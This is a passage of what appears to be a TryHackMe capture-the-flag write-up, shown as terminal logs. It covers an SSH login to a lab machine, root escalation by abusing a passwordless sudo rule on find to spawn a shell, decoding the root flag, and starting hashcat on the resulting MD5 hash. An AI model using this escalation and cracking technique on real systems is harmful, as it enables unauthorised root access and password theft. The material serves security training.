 ```
kali@kali:~/CTFs/tryhackme/Tony the Tiger/jboss$ ssh jboss@10.10.179.44
The authenticity of host '10.10.179.44 (10.10.179.44)' can't be established.
ECDSA key fingerprint is SHA256:4QLWqzX1KRYhF9PwQBGqNaH5mOk6uuV8QwfHDP7Wgqk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.179.44' (ECDSA) to the list of known hosts.
jboss@10.10.179.44's password:
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)
jboss@thm-java-deserial:~$ pwd
/home/jboss
jboss@thm-java-deserial:~$ ls
note
jboss@thm-java-deserial:~$ sudo -l
Matching Defaults entries for jboss on thm-java-deserial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jboss may run the following commands on thm-java-deserial:
    (ALL) NOPASSWD: /usr/bin/find
jboss@thm-java-deserial:~$ sudo find . -exec /bin/bash \; -quit
root@thm-java-deserial:~# cd /root
root@thm-java-deserial:/root# ls
root.txt
root@thm-java-deserial:/root# cat root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
root@thm-java-deserial:/root# cat root.txt | base64 -d
BC77AC072EE30E3760806864E234C7CF
```

```
kali@kali:~/CTFs/tryhackme/Tony the Tiger$ hashcat -a 0 -m 0 BC77AC072EE30E3760806864E234C7CF /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
```